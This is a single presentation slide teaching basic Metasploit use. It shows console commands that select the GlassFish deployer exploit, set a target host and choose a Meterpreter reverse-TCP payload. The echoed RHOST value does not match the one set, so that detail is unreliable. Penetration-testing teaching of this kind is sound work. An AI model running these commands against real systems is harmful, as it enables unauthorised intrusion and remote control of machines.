

# Basic Theory of Exploiting a System with Metasploit
20
1.  Exploit Selection

2.  Exploit Configuration

3.  Payload Selection
msf > use exploit/multi/http/glassfish_deployer
msf exploit(glassfish_deployer) > set RHOST 10.0.0.1
RHOST => 192.168.0.100
msf exploit(glassfish_deployer) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp